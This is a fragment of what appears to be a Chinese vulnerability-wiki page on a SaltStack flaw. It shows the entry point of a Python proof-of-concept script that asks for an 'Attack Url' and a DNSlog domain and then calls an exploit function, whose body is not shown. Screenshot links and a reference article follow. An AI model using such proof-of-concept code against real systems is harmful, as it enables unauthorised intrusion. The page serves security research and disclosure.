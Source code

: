 ```python
if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, dnslog)
```



![](http://wikioss.peiqi.tech/vuln/salt-15.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/salt-16.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 参考文章

https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag